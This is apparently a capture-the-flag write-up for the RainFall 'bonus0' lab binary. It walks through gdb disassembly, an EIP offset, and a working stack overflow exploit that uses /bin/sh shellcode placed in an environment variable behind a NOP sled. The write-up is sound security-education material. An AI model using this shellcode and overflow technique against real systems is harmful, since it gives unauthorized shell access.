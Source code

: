 Once more, we analyze the file with `gdb`:

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
(gdb) disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	push   %edi
   0x08048522 <+4>:	push   %ebx
   0x08048523 <+5>:	sub    $0x50,%esp
   0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:	lea    -0x30(%ebp),%eax
   0x08048531 <+19>:	mov    %eax,(%esp)
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:	lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:	mov    %eax,(%esp)
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    -0x30(%ebp),%eax
   0x0804854f <+49>:	mov    %eax,0x4(%esp)
   0x08048553 <+53>:	mov    0x8(%ebp),%eax
   0x08048556 <+56>:	mov    %eax,(%esp)
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    $0x80486a4,%ebx
   0x08048563 <+69>:	mov    0x8(%ebp),%eax
   0x08048566 <+72>:	movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:	mov    %eax,%edx
   0x0804856f <+81>:	mov    $0x0,%eax
   0x08048574 <+86>:	mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:	mov    %edx,%edi
   0x08048579 <+91>:	repnz scas %es:(%edi),%al
   0x0804857b <+93>:	mov    %ecx,%eax
   0x0804857d <+95>:	not    %eax
   0x0804857f <+97>:	sub    $0x1,%eax
   0x08048582 <+100>:	add    0x8(%ebp),%eax
   0x08048585 <+103>:	movzwl (%ebx),%edx
   0x08048588 <+106>:	mov    %dx,(%eax)
   0x0804858b <+109>:	lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:	mov    %eax,0x4(%esp)
   0x08048592 <+116>:	mov    0x8(%ebp),%eax
   0x08048595 <+119>:	mov    %eax,(%esp)
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    $0x50,%esp
   0x080485a0 <+130>:	pop    %ebx
   0x080485a1 <+131>:	pop    %edi
   0x080485a2 <+132>:	pop    %ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.

```

We notice that `main()` calls `pp()` that itself calls `p()`. In the `p()` function, we notice a call to `read()`, which matches the behaviour we see when just **executing the file**. After some reasearch, we find that we can **make the program segfault**:

```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

We search for the **EIP offset** using this [tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), and find that it's **9**.
The goal here is to run a shellcode with `/bin/sh`, but since there is no `malloc()` (**no heap exploit**) and the `strncpy()` copies only 20 chars (**no stack exploit**), we're going to have to find another way to do so.

We are going to pass our shellcode through the **environment variables**, but to do so, we need to find their addresses. We are also going to create a **NOP Sled** to assure our shellcode is going to run.

```
A NOP sled is a sequence of No-Operation instructions (typically `0x90`) used in buffer overflow exploits to increase the chance that the CPU's instruction pointer lands somewhere before the shellcode. It allows execution to "slide" down the NOPs into the actual malicious code.
```

Here is the **script** we're going to pass as an **environment variable**:

```bash
export SCRIPT=$(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

Then, using `gdb` again we will search for our **environment variable's address**:

```bash
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/150s environ
[...]
0xbffff8fa:	 "SCRIPT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
[...]
```

Knowing this address we're going to aim for an address after `0xbffff8fa` to make sure we "land" in the **NOP sled**:

```bash
(python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\x1a\xf9\xff\xbf" + "A" * 7' && cat) | ./bonus0
```

And we get our first bonus flag !!
